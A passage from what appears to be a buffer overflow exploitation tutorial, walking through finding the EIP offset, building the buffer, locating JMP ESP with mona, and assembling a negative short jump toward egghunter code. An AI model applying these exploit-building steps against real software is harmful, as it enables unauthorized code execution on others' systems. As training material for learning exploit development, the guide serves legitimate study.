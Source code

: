 msf-pattern_offset -q EIPaddress

```bash
msf-pattern_offset -q 32674231
[*] Exact match at offset 965
```
Example: 
offset = "A" * yyy
offset = "A" * 965

### 5 - Make a Stack Fitting
it is time of building the exploit. We use in this example a space of the payload with 400 bytes in the ESP

Example:
```bash
offset = "A" * yyy
eip = "BBBB"
esp = "C" * 400
buffer = offset + eip + esp
```
### 6 - Search JMP ESP

inside immunity debugger

**!mona jmp -r esp -n**
choose a DLL with less protection (SEH, ASLR, etc)

Example:
```bash
offset = "A" * yyy
eip = jmpesp-address
esp = "C" * 400
buffer = offset + eip + esp
```

### 7 - Reduced Space to Shellcode
Calculating a space to put my shellcode

NN = address-of-ESP - address-of-offset-where-i-want-to-go
           CCCCC     -        AAAA

```python
python
hex(0xCCCC - 0xAAAA)
int(0xJJ)
```

### 8 - Negative JUMP
How there is no space in the stack to put the payload, its necessary to do a negative jump to offset position to put a egghunter code.

**msf-nasm_shell**

nasm> JMP SHORT -0xJJ
Result:
```bash
\xEB\x??
```
